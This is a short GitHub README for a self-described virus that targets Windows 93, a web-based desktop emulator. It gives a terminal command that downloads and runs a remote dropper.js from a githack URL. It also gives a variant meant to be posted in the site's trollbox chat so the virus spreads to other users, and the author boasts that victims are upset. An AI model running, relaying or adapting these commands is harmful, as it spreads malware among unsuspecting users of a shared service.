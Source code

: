 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`    
Spread via trollbox as message:    
`/exe js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`

## Does it work?
YES apparently. Never seen it for myself but some people are crying about it now ._.

## Why does it sometimes take long to update
githack is not ok    
p.s. i am exfiltrate
